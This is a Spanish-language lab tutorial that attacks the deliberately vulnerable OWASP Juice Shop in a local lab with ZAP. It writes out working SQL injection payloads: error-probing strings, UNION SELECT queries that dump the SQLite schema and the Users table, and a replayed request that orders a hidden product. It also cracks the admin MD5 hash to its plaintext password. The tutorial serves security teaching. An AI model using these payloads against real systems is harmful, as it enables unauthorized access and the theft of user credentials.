# Ataques de Inyección SQL (SQL Injection).
      
      

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Ubu_srv_01***

Las debilidades de inyección permiten a los actores de la amenaza enviar código malicioso a través de la aplicación para atacar un sistema de backend. Estos ataque incluyen:

* Ejecutar comandos del sistema operativo por medio de llamadas al sistema (System calls)
* Abrir otros programas por medio de comandos de la shell.
* Relizar consultas a la base de datos de backend.
* etc.

Los ataques de inyección pueden presentarse cuando la aplicación utiliza alguna clase de interprete, que no filtra apropiadamente los datos enviados por el atacante.

Los ataques de inyección SQL pueden ser muy sencillos de explotar, pero también los tenemos muy elaborados y complejos. Las consecuencias de poder interactuar con el servidor de bases de datos son diversas, pueden modificar la información, corromperla o eliminarla.

## Ejercicio 1. Hacer un pedido de la oferta especial de navidad de 2014.

La ***Blind SQL Injection*** es un tipo de ataque donde preguntamos a la base de datos (a ciegas) por consultas que pueden devolver ***true*** o ***false***, y estudiamos la respuesta. Este tipo de ataque se utiliza cuando la aplicación web está configurada para mostrar ***mensajes de error genéricos***, pero es vulnerable a inyección de SQL.

Cuando realizamos el ataque, la aplicación web puede mostrar errores  indicando que la sintaxis de la consulta es incorrecta.

***OBJETIVO***: Poder realizar un pedido de un producto que se supone que no está disponible.

***PISTAS***: 

* Localiza cómo oculta la aplicación a los usuarios los productos eliminados (que no se pueden pedir ya).
* Intenta construir una cadena de ataque que haga visible de nuevo esos productos eliminados.
* Selecciona un producto eliminado, añádelo al carrito y realiza el checkout.
* Ninguna de las pistas anteriores pueden ser realizadas desde el frontend de la aplicación y necesitan realizar ***Blind SQL Injection***.

***RESOLUCIÓN***. Los pasos para resolver el reto son.

Usaremos ***ZAP***, así que lo abrimos y conectamos a la siguiente URL.
(Nota: Si no lo tienes claro o no lo conoces, te recomiendo hacer el laboratorio ***lab-25-A***.)

```
http://192.168.20.60:3000/search
```

Vamos a estudiar una URL muy concreta. Para facilitar su localización, en el HUD, hacemos clic en ***History***, y filtramos por.
```
search
```



Esta request servirá para localizar productos. Como podemos ver, hace uso del parámetro ***p***. Ahora hacemos clic en la request que tenemos filtrada en el historial. Aparecerá un cuadro de diálogo que nos permite ver la ***Request*** original, así como la ***Response*** que se recibió. Si hacemos clic en la Response podeos observar cómo aparece la lista completa de productos devuelta desde la base de datos, tal y como se puede observar en la siguiente imagen.



Si prefieres, puedes hacer que ZAP use el propio navegador para mostrar los datos devueltos. Para ello hacemos clic en el botón ***Replay in Browser***.



Vamos a jugar con el parámetro ***p***, solicitando información sobre el zumo de limón. Para ello, en la barra de navegación, escribimos lo siguiente.
```
https://192.168.20.60:3000/rest/products/search?q=lemon
```

Podemos observar cómo se devuelven los datos para el producto con ***id=5***, que es el ***zumo de limón***.



Aunque ZAP tiene herramientas automatizadas para probar si la inyección de SQL es posible, por ahora lo haremos manualmente. Si el interprete no filtra correctamente la entrada de usuario, es posible provocar errores. Vamos a usar caracteres que tienen significado en SQL, por ejemplo, ***'*** y ***;***. Escribimos en la URL del navegador lo siguiente.
```
https://192.168.20.60:3000/rest/products/search?q=';
```

Y obtendremos un bonito error del intérprete de SQL, demostrando que la inyección es posible.



Estamos a ciegas (blind). Sabemos que la aplicación es vulnerable, pero debemos construir consultas SQL cada vez más precisas, que lleven al objetivo buscado (Pedir un producto que no está en el stock). Realizamos otra prueba, escribiendo en en navegador la siguiente URL.
```
https://192.168.20.60:3000/rest/products/search?q='--
```

En este caso obtenemos un error ligeramente diferente: ***incomplete input***, que ocurre porque falta algún paréntesis en la consulta.



Para arreglar el error, añadimos ***'))--***, así que en la barra de direcciones escribimos.
```
https://192.168.20.60:3000/rest/products/search?q='))--
```

Si observas, la aplicación devuelve otra vez la lista de productos, pero en este caso también muestra el producto descatalogado ***Christmas Super-Surprise-Box (2014 Edition)*** con ***id=10***.




Ahora procedemos a realizar el hackeo, consistente en hacer el pedido de este producto que está descatalogado. Para ello procedemos a realizar el login en la aplicación, de la forma que aprendimos a hacer. Si has cerrado el navegador, vuelve a la interfaz de ZAP y en ***Quick Start***, inicia una exploración manual en la URL siguiente.
```
http://192.168.20.60:3000/#/login
```

Inicia sesión con el usuario que has creado. Vamos a añadir un producto normal en el carrito, para evitar problemas cuando agregemos es que está descatalogado. Por ejemplo, agrega ***Lemon Juice (500ml)***.



Ahora debemos localizar la request que agrega el zumo de limón al carrito. Para ello hacemos clic en ***History*** del ***HUD***, y localizamos la request a la URL ***http://192.168.20.60:3000/api/BasketItems/***. Hacemos clic en ella y podrás ver la información que la aplicación manda a la api del servidor, tal y como se muestra en la siguiente imagen.



Podrás comprobar que el ***ProductId*** es ***5***, que ***BasketId*** es ***6*** y ***quantity*** es ***1***.
(Nota: ***BasketId*** puede mostrar un valor diferente al de este tutorial. Anótalo porque lo usarás en breve.)

Ahora que ya sabemos el ID de nuestro carrito procedemos a reenviar la request modificando el ***id*** del producto que queremos obtener, y que no es otro que el famoso ***Christmas Super-Surprise-Box (2014 Edition)*** con ***id=10***.

En el cuadro de diálogo ***HTTP Message***, cambiamos el ***ProductId*** de ***5*** a ***10***. Debe quedar tal y como muestra la imagen.



Y procedemos a reenviar la request a la api haciendo clic en el botón ***Replay in Browser***. Con esto habremos añadido un producto que no se podía elegir en la aplicación.



Para volver a la aplicación, escribimos en la barra de direcciones la siguiente URL.
```
http://192.168.20.60:3000
```

Hacemos clic en el bótón del carrito y veremos como aparecen los dos productos. Ya solo quedaría finalizar el proceso de compra haciendo clic en ***Checkout***.




## Ejercicio 2. Exfiltrar el esquema de la base de datos.

Los errores que aparecieron el el ejercicio anterior mostraron que la base de datos es ***SQLite***. Es esta base de datos, la tabla del sistema ***sqlite_schema*** contiene el esquema de la base de datos. En esta web, https://www.sqlite.org/faq.html, en el apartado 7, se nos explica los campos que tiene esta tabla. De ellos, el campo ***sql*** contiene la instrucción original que creó la base de datos.

***OBJETIVO***: Exfiltrar el esquema de la base de datos consultando la tabla ***sqlite_schema***.

***PISTAS***: 

* En el ejercicio anterior hemos determinado que la aplicación es susceptible a ataque de inyección de SQL en el endpoint ***/rest/products/search*** usando el parámetro ***q***.
* También verificamos que usando los caracteres ***'))--*** se podía realizar la consulta.
* La técnica a emplear hace uso del operador ***UNION*** para conseguir el resutado deseado.

***RESOLUCIÓN***. Los pasos para resolver el reto son.

Usaremos ***ZAP***, así que si no estuviera abierto, lo abrimos y conectamos a la siguiente URL.
```
https://192.168.20.60:3000/rest/products/search?q=')) UNION SELECT * FROM x--
```

Esta instruccion usa el operador ***UNION*** con una tabla que se llama ***x***, que es muy probable que no exista y es ése precisamente el resultado que se obtiene, tal y como se aprecia en la imagen.



Mediante esta técnica podemos determinar si existe o no una tabla en concreto, y en el caso de existir, al usar ***UNION***, devolverá todos sus registros. Así que procedemos a cambiar ***x*** por ***sqlite_schema***. En la URL escribimos lo siguiente,
```
https://192.168.20.60:3000/rest/products/search?q=')) UNION SELECT * FROM sqlite_schema--
```

Como resultado tenemos un mensaje que nos dice que el operador ***UNION*** no tiene el mismo número de columnas, lo que demuestra que la tabla ***sqlite_schema*** se puede consultar.



La técnica en el ataque ***UNION*** es encontrar el número de columnas correcto, así que hay que ir probando. Debemos poner en la URL lo siguiente, hasta que desaparezca el error.

```
https://192.168.20.60:3000/rest/products/search?q=')) UNION SELECT '1' FROM sqlite_schema--
```

```
https://192.168.20.60:3000/rest/products/search?q=')) UNION SELECT '1', '2' FROM sqlite_schema--
```

```
https://192.168.20.60:3000/rest/products/search?q=')) UNION SELECT '1', '2', '3' FROM sqlite_schema--
```

Seguimos probando hasta este.
```
https://192.168.20.60:3000/rest/products/search?q=')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_schema--
```

Nos fijamos en el último elemento que devuelve el recordset, en este ejemplo el ***44***.



Modificamos ligeramente el ataque para que no aparezcan los productos. Para ello escribimos un producto que no exista seguro, como ***hfhdskfhskdjfhsjkfh***. En la barra de direcciones escribimos.
```
https://192.168.20.60:3000/rest/products/search?q=hfhdskfhskdjfhsjkfh')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_schema--
```

Como resultado obtenemos lo siguiente.



Por último solo hay que reemplazar uno de los valores fijos ('1', '2', ...) con el nombre de la columna correcta, que es ***sql***. En la barra de direcciones escribimos.
(Nota: hemos sustituido ***'1'*** por ***sql***.)
```
https://192.168.20.60:3000/rest/products/search?q=hfhdskfhskdjfhsjkfh')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_schema--
```

Como resultado tenemos exfiltrado todo el esquema de la base de datos, ya que la primera columna se sustituye por las instrucciones SQL que se usaron para crear las tablas de dicha base de datos.




## Ejercicio 3: Obtener las credenciales de todos los usuarios.

***OBJETIVO***: Obtener las credenciales de todos los usuario por medio de inyección de SQL.

***PISTAS***: 

* En el ejercicio anterior hemos determinado que la aplicación es susceptible a ataque de inyección de SQL en el endpoint ***/rest/products/search*** usando el parámetro ***q***.
* También verificamos que usando los caracteres ***'))--*** se podía realizar la consulta.
* Hemos sido capaces de exfiltrar el esquema de la base de datos que usa la aplicación, y habrás comprobado hay una tabla llamada ***Users***.

***RESOLUCIÓN***. Los pasos para resolver el reto son.

Como habrás comprobado hay una tabla llamada ***Users***, que podemos ver en esta imagen.



En ella hay dos campos interesantes, los campos ***username*** y ***password***.

Vamos a utilizar la técnica ***UNION*** para obtener todos los registros de dicha tabla.

Activamos ***OWASP ZAP*** y probamos lo siguiente.
```
https://192.168.20.60:3000/rest/products/search?q=')) UNION SELECT '1' FROM users--
```

Obtenemos un error, así que volvemos a probar con diferentes números de columnas hasta acertar. La instrucción de inyección correcta es.
```
https://192.168.20.60:3000/rest/products/search?q=ewrwerwewerwerwer')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM users--
```

Como ya sabemos los campos que forman la tabla ***Users***, modificamos la consulta anterior de la siguiente forma.
```
https://192.168.20.60:3000/rest/products/search?q=ewrwerwewerwerwer')) UNION SELECT id, username, email, password, '5', '6', '7', '8', '9' FROM users--
```

En la siguiente imagen podemos ver los siguiente.

* En el campo ***id*** de la unión tenemos el ***id*** del usuario.
* En el campo ***name*** de la unión tenemos el ***username***, que para todos los usuarios está en blanco.
* En el campo ***description*** de la unión tenemos el ***email***.
* En el campo ***price*** de la unión tenemos el ***password***, que al parece está en la forma de un HASH.



Las credenciales para el administrador del sitio son.
Usuario.
```
admin@juice-sh.op
```
Hash
```
0192023a7bbd73250516f069df18b500
```

En el siguiente ejercicio intentaremos revertir el hash para obtener la contraseña.


## Ejercicio 4: Iniciar sesión con el usuario administrador.

***OBJETIVO***: Obtener la contraseña en texto en claro a partir de un hash.

***PISTAS***: 

* Usar el hash capturado en el ejercicio anterior y revertirlo en una web de tablas rainbow.

***RESOLUCIÓN***. Los pasos para resolver el reto son.

Los algoritmos de hashing más utilizados como NTLN, md5, sha256, etc. son algoritmos de ***puerta única***. Esto quiere decir que matemáticamente es imposible determinar la combinación de caracteres que producen un hash concreto. 

Las ***Tablas Rainbow*** contienen billones que hashes precalculados, con sus respectiva combinaciones de caracteres en texto en claro. Si el número de caracteres que forman la contraseña no es muy alto (menos de 10), existe una altísima probabilidad de que la tabla rainbow contenga la combinacion de password y hash en su base de datos, lo que hace muy simple reventar las passwords.

Conéctate a la siguiente web (en este caso no es necesario usar ZAP)
```
https://crackstation.net/
```

A continuación pega el hash del usuario administrador, que es el siguiente, y pulsa el botón ***Crack Hashes***.
```
0192023a7bbd73250516f069df18b500
```


Si hay suerte, tendrás el password asociado a dicho hash, que en este ejemplo es ***admin123***


Para terminar el ejercicio, inicia sesión en la aplicación con el usuario.
```
admin@juice-sh.op
```

y password.
```
admin123
```


***FIN DEL LABORATORIO***


https://pwning.owasp-juice.shop/part2/injection.html
https://pwning.owasp-juice.shop/appendix/solutions.html


